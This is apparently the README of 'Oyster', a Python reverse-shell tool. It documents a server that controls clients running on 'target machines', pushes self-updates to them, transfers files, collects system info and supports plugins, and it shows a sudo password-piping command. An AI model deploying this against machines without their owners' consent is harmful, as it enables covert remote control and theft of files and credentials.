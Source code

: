 ```python
 .oOOOo.
.O     o.
O       o               O
o       O              oOo
O       o O   o .oOo    o   .oOo. `OoOo.
o       O o   O `Ooo.   O   OooO'  o
`o     O' O   o     O   o   O      O
 `OoooO'  `OoOO `OoO'   `oO `OoO'  o
              o
           OoO'
```

Oyster is a lightweight multi-threaded reverse shell written in pure 
python 3.  The server can push updates to the clients, and the clients 
will overwrite/restart themselves.  Client/Server/Server Shell commands 
can also be added using the plugin system.

I wrote this after finding an example reverse shell on the thenewboston 
youtube channel.  I saw some things I wanted to improve, so that's what 
I attempted to do.  The clients will continuously try to make a 
connection with the server.

## Control Server

Start `server.py` from the command line.  Here are the keyword arguments 
used for `server.py`:

```
host        - Host IP address.
port        - Host port.
recv_size   - Buffer size for receiving and sending data.
listen      - Maximum number of queued connections.
bind_retry  - How many times to retry binding the socket to the port.
```

Example:

All of the arguments provided below are the defaults except `host`, 
which is a blank string as the default.

```
python3 server.py host=0.0.0.0 port=6667 recv_size=1024 listen=10 bind_retry=5
```

You can also modify the `server.py` & `client.py` file directly to 
hardcode the information into the starting variables if that is your
thing.

## Oyster Shell

The Oyster Shell is the main interface.  It's what you use to select 
which clients you would like to send commands to, and push updates to 
the `client.py` file on all of the connected target machines.  You know
you're working with the Oyster Shell if you see the following prompt:

```
Oyster> 
```

Commands for the `Oyster` shell are:

```
list                        -   List the connected clients.
    
update all                  -   Update all the connected clients using 
                                `update.py`.  Clients will overwrite 
                                themselves and reboot themselves.
                                
use {target ip/index}       -   Use a target connection.  {target ip/index} 
                                can be found by running the `list` command.

upload                      -   Upload a file to a client.

plugins -r                  -   Reload all plugins.

plugins -l                  -   List all plugins.

plugins -ls                 -   List all server plugins.

plugins -lsh                -   List all oyster shell plugins
                                
quit                        -   Shut everything down.
```

### Oyster Shell's `use` Command

The `use` command will drop you into a client shell.  This is used to 
navigate and manipulate the client's computer.  Once executed, the `use` 
command will drop you into a shell for the given connection[ip address 
or index givin by the `list` command].  You'll know you're in a client 
shell when you see an ip address along with a directory structure with a
`> ` at the end:

```
<10.0.0.8> /Some/Directory> 
```


To get out of the connection's shell, run the `quit` command.  This will 
take you back to the `Oyster` shell.

Example:

```
Oyster> use 10.0.0.8
<10.0.0.8> /Users/SomeUser/Remote/Computer/Where/Client.py/Is/Stashed> quit
Oyster> 
```

### Client Shell Commands

There are other client shell commands besides `quit`:

```
get "{target filepath}" "{local filepath}"      -   Download a file from 
                                                    the target.

upload {local filepath} {target filepath}       -   Upload a file to the
                                                    target.

sysinfo                                         -   Get system info from
                                                    the target.

plugins -r                                      -   Reload all plugins.

plugins -l                                      -   List all plugins.  
                                             
oyster reboot                                   -   Reboot the selected
                                                    client.
```

Example:

```
Oyster> use 10.0.0.8
<10.0.0.8> /Users/SomeUser/Where/The/Client/Is/Stashed> get ~/Music/song.m4a song.m4a
< File Stashed: song.m4a >
<10.0.0.8> /Users/SomeUser/Where/The/Client/Is/Stashed> 
```

### Adding Client/Server/Shell Commands

A plugin api is available for adding client/server/server shell commands.  
The `get` command is actually implemented as a plugin.  Check out the 
`Get.py` file in the `client_plugins` folder for an [example plugin](https://github.com/Wykleph/Oyster/blob/master/client_plugins/Get.py).


#### Plugin Design

In order to know how to write plugins, you probably need some basic info 
on how everything works under the hood.

The basic idea is that a `command`/`data` is dispatched to the `client` 
from the `server`, and then the `client` responds with a `result` and 
waits for another `command`. The `client` _must_ respond with _something_,
even if it is a blank string.  A lot of commands can be implemented with 
a client-side plugin, however in certain cases a `server` plugin, or 
Oyster `shell` plugin would be required for more advanced functionality(
downloading files or something similar).

A client plugin must be a python file with a `Plugin` class that has a 
`version` attribute, an `invocation` attribute that tells it what 
command invokes the plugin. It must also contain an `enabled` attribute 
that can be used to disable or enable plugins.  Just change the value to 
enable or disable a plugin. A `run` method that takes an instance of the 
`Client` object and a string of `data` as the two arguments.  Example. 
This plugin tells the client to `say` something(the data just gets sent 
back to the server and printed):

```python
import shlex

class Plugin(object):
    """
    Make the client say something.
    """
    
    version = 'v1.0'
    invocation = 'say'
    enabled = True
    
    def run(self, client, data):
        args = shlex.split(data)
        
        client.server_print(' '.join(args))
```

A server/oyster shell plugin is written exactly like a client plugin, 
except the `run` method takes a `Server` instance as the first argument
instead of a `Client` instance.  The `Server` instance uses a method 
called `send_command` to send data to the `Client` instead of `send_data` 
or `server_print`.

A `shell` plugin only runs if you are in the `Oyster>` shell.  A server 
plugin runs on the server-side just before a command is sent to a client.
This enables all sorts of additional functionality like sending commands 
to all of the connected clients at once. The `Server` uses the
`ConnectionManager` to manage all of the connected `client`s. 
Documentation on the `ConnectionManager` will be coming soon.

The `client_plugins/Get.py` file is what handles the `get` command sent 
from the server.  The `server_plugins/Get.py` file handles the 
server-side implementation of the `get` command.  A simpler plugin 
example can be found in the `client_plugins/SysInfo.py` file.  It runs 
some functions to gather some basic information about the clients 
system, then sends it to the server. Be careful implementing command 
plugins as you can override an operating system's commands.  Look at the 
`ChangeDirectory` plugin in the `client_plugins` to see a good example 
of how the `cd` command is actually implemented in python, and not using 
the native OS command.

### Using `sudo` with connected clients

`echo` the password and pipe it into the `sudo` command with the `-S`
flag.

```
echo "ClientsPassword" | sudo -S chown $USER:admin /usr/local/include
```

You may need to add a newline character to the end of your password.

```
echo "ClientsPassword\n" | sudo -S chown $USER:admin /usr/local/include
```

Check out the `man` pages for `sudo` on the client if this doesn't work.
I'm not sure how much the `-S` flag differs between unix flavours.

## Client

Start `client.py` on the target machine.  The client should keep itself
up and running, unless it errors out for some odd reason.  When updates
are pushed to the client from the server, the client will overwrite
and restart itself.  It's up to the user to figure out how to get this 
to run on startup or whatever.  Here are startup arguments.

```
host
port
recv_size
```

Example:

```
python3 client.py host=10.0.0.215 port=6667 recv_size=1024
```
